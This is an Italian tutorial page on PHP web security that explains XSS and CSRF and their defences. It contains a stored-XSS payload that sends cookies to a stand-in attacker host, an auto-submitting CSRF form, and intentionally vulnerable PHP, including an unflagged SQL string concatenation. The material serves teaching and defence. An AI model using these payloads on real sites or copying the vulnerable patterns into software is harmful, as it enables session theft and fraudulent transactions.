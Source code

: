 [⬅️ [TORNA ALL'INDICE] ](../README.md)

## Vulnerabilità di Sicurezza

### Cross-Site Scripting (XSS)
XSS è una vulnerabilità che permette di eseguire un attacco iniettando codice JavaScript maligno nel tuo sito web. Questo codice viene eseguito nel browser che visita il sito.

Ecco un esempio di codice PHP vulnerabile, dove il parametro 'name' viene restituito direttamente senza sanificazione, cioè senza ripulirlo dai tag html che potrebbero consentire l'esecuzione di codice javascript.

Supponiamo di avere una pagina welcome.php scritta in questo modo:
```php
<?php
echo "Benvenuto, " . $_GET['name'];
?>
```
Una pagina di questo tipo risponde ad una richiesta del tipo<br/>
`http://tuosito.com/welcome.php?name=Paul`<br/>
con una pagina html:
```html
Benvenuto, Paul
```

Ma che succede se inviamo un richiesta di questo tipo?

`http://tuosito.com/welcome.php?name=<script>document.cookie</script>`

La pagina restituita diventa:
```html
Benvenuto, <script>document.cookie</script>
```
forzando il server a generare una pagina di risposta con del codice javascript arbitrario, che viene eseguito nel browser dell'utente che la riceve.

In particolare, in questo caso, document.cookie è un oggetto JavaScript che contiene tutti i cookie accessibili della pagina corrente. Per esempio potrebbe contenere:
```html
"sessionId=abc123; userId=456; theme=dark"
```

#### Esempio di Vulnerabilità XSS
In realtà l'attacco mostrato nell'esempio non è particolarmente pericoloso, perchè la pagina con il codice "iniettato" viene restituita all'utente che ha effettuato l'attacco. Sarebbe come attaccare se stessi.

Consideriamo però questo scenario.<br/>
Supponiamo di avere un Instagram senza protezione verso XSS.<br/>
L'utente CyberCrime commenta il post Instagram dell'utente Tanos con la seguente stringa:
```html
Bel post!
<script>fetch('https://cyber-crime.com/upload?' + document.cookie);</script>
```
La funzione fetch() serve ad eseguire una richiesta HTTP GET all'URL passato come parametro.

Il commento, così come scritto dall'utente CyberCrime, arriva al server, che lo salverà su database, come qualunque altro commento.

```php
<?php
$sql = "INSERT INTO comments (text) VALUES ('" . $_POST['comment'] . "')";
//ecc...
?>
```

Supponiamo che la pagina Instagram di Tanos viene visualizzata dall'utente Tony. Il server quindi prepara dinamicamente la pagina Instagram di Tanos, mostrando tutti commenti del post (caricandoli dal database). Tony quindi riceverà sul suo browser una pagina html del tipo:
```html
-= Tanos =-
Il multiverso è una teoria interessante.
---Commenti---
CyberCrime: Bel post!
<script>fetch('https://cyber-crime.com/upload?' + document.cookie);</script>
--------------
```
Il browser di Tony eseguirà il codice Javascript, caricando i cookie di Tony sul sito dell'utente CyberCrime.

Come per Tony, CyberCrime collezionerà sul suo sito web i cookie di tutti gli utenti che accedono alla pagina Instagram di Tanos.

Questo esempio mostra come **i cookie non sono adeguati per memorizzare dati sensibili**.

#### Protezione da Cross-Site Scripting (XSS)
Per prevenire un attacco del genere, sul server va utilizzato htmlspecialchars():

```php
<?php
echo "Benvenuto, " . htmlspecialchars($_GET['name']);
?>
```

La funzione `htmlspecialchars()` converte i caratteri speciali HTML in entità HTML. Per esempio:
- `<` diventa `&lt;`
- `>` diventa `&gt;`

Questo impedisce l'esecuzione di codice JavaScript maligno, perché il browser interpreterà i caratteri speciali come testo da visualizzare e non come codice da eseguire. Nell'esempio precedente, l'output sanificato sarebbe:<br/>
`Benvenuto, &lt;script&gt;document.cookie&lt;/script&gt;`

I cookie sono particolarmente vulnerabili agli attacchi XSS perché JavaScript può accedere ai cookie della pagina corrente attraverso l'oggetto `document.cookie`.

Oltre all'uso di htmlspecialchars, per proteggere i cookie da questo tipo di attacco, è necessario utilizzare le appropriate flag di sicurezza:

```php
<?php
setcookie("session_id", "123456", [
    'httponly' => true,    // Previene l accesso via JavaScript
    'secure' => true,      // Solo HTTPS
    'samesite' => 'Strict' // Previene CSRF
]);
?>
```

Spiegazione delle flag di sicurezza:
- `httponly`: Impedisce a JavaScript di accedere al cookie. Il cookie sarà disponibile solo per il server.
- `secure`: Il cookie viene inviato solo su connessioni HTTPS cifrate.
- `samesite Strict`: Il cookie viene inviato solo se si è sullo stesso sito
  

### Cross-Site Request Forgery (CSRF)
CSRF è un attacco che forza un utente autenticato a eseguire azioni indesiderate su un sito web dove è già autenticato. L'attacco sfrutta il fatto che il browser invia automaticamente i cookie (incluso il cookie di sessione) con ogni richiesta al sito.

#### Come Funziona un Attacco CSRF:
1. L'utente fa login su un sito (es. la sua banca)
2. Il browser memorizza il cookie di sessione
3. L'utente, mentre è ancora loggato alla banca, visita un sito maligno
4. Il sito maligno fa partire automaticamente una richiesta alla banca
5. Il browser invia automaticamente il cookie di sessione con la richiesta
6. La banca riconosce il cookie valido ed esegue l'operazione

#### Esempio di Vulnerabilità CSRF

Ecco una pagina vulnerabile di trasferimento denaro sul sito della banca.
Supponiamo di avere una pagina php `transfer.php` che richiama una funzione transferMoney per il trasferimento bancario.

```php
<?php
    transferMoney($_POST['to'], $_POST['amount']);
?>
```

Si potrebbe creare una pagina maligna che sfrutta questa vulnerabilità:

```html
<html>
<body onload="document.forms[0].submit()">
    <form action="http://banca.com/transfer.php" method="POST">
        <input type="hidden" name="amount" value="1000">
        <input type="hidden" name="to" value="cyber_criminal">
    </form>
</body>
</html>
```

Quando la vittima visita questa pagina maligna, mentre è ancora collegato al sito della banca:
- Il form viene inviato automaticamente, contattando il sito della banca
- Il browser include automaticamente i cookie legittimi della banca
- La banca vede una richiesta apparentemente legittima
- Il trasferimento viene eseguito senza che l'utente se ne accorga


#### Protezione da CSRF

La protezione CSRF si basa sul principio che il sito maligno non può leggere il contenuto delle risposte dal sito legittimo. Ecco come implementare una protezione:

Per prima cosa, generiamo un token CSRF univoco:

```php
<?php
session_start();
if (empty($_SESSION['csrf_token'])) {
    $_SESSION['csrf_token'] = bin2hex(random_bytes(32));
}
```

La generazione del token CSRF usa due funzioni:
1. `random_bytes(32)`: Genera 32 byte di dati casuali
2. `bin2hex()`: Converte i byte binari in una stringa esadecimale leggibile

Esempio di token generato:
```php
"7f13c8e5b2d9a4f6c3d8e1f5a2b7c4d9e6f3a8b5c2d7e4f1a9b6c3d8e5f2a7"
```

Poi includiamo il token, in modo dinamico, **in ogni form del nostro sito**:

```php
<form method="POST" action="/transfer.php">
    <input type="hidden" name="csrf_token" 
           value="<?php echo $_SESSION['csrf_token']; ?>">
    <input type="text" name="amount">
    <input type="text" name="to">
    <button type="submit">Trasferisci</button>
</form>
```
In modo che sul client ci sia un form con il campo "csrf_token" impostato dal server:
```html
<form method="POST" action="/transfer.php">
    <input type="hidden" name="csrf_token" value="7f13c8e5b2">
    <input type="text" name="amount">
    <input type="text" name="to">
    <button type="submit">Trasferisci</button>
</form>
```


Infine, sul server, in ogni richiesta POST verifichiamo che il token inviato con il form sia lo stesso generato ad inizio sessione:

```php
if ( $_SESSION['csrf_token'] != $_POST['csrf_token'] ) {
    die('CSRF token non valido');
}
```

Questo funziona perché:
1. Il token cambia ad ogni sessione
2. Il sito maligno non può conoscere il token generato sul server
3. Senza il token corretto, la richiesta viene rifiutata


[⬅️ [TORNA ALL'INDICE] ](../README.md)